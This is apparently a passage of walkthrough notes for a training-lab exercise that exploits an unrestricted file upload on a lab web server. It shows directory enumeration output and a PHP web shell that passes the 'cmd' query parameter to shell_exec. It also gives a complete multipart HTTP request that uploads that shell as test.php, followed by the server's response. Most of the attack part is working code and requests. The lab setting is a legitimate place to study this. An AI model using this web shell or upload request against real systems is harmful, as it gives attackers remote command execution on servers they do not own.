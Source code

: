 ```
/phpinfo.php          (Status: 200) [Size: 76509]
/server-status        (Status: 403) [Size: 345]
/static               (Status: 301) [Size: 418] [--> http://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/static/]
/uploads              (Status: 301) [Size: 419] [--> http://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/uploads/] 📌
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`curl -X GET https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/uploads/test.php`:
```
test 
```

`vim ./shell.php`:
```php
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/
Content-Type: multipart/form-data; boundary=---------------------------220412119661351292736528440
Content-Length: 250
Origin: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------220412119661351292736528440
Content-Disposition: form-data; name="fileToUpload"; filename="test.php"
Content-Type: application/x-php

<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?> 📌

-----------------------------220412119661351292736528440--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:36:39 GMT
```